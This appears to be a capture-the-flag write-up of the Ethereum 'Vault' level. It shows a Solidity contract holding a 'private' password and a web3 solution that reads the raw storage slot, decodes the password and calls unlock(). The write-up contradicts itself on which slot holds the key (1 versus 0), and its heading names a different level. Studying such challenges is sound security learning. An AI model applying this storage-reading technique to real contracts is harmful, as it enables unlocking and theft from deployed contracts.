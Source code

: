 ## Fallback memes

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

</p>
</details>

### Solution

If it's decentralized, how can it ever be private! Good question. Ethereum Stack Exchanged
[has the answer to it](https://ethereum.stackexchange.com/questions/44893/how-do-i-see-the-value-of-a-string-stored-in-a-private-variable): it ain't
possible. By navigating through the storage, I found at the solution at index 1 by using the following command:
```javascript
await web3.eth.getStorageAt(instance, 0, (e, v) => console.log(web3.utils.toAscii(v)));
```

Once I had the key, I just had to call the unlock function:
```javascript
contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29') // Key is *most likely* randomized so don't bother reusing it
```

And tada. Donzo!
